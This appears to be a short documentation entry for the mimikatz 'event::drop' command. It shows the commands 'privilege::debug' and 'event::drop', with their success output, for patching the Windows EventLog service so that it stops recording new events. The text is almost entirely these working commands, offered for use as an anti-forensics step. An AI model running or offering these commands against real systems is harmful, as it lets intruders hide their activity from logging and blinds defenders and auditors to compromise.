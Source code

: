 # drop

Patch Events service to avoid new events ( :warning: experimental)

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # event::drop
"EventLog" service patched
```
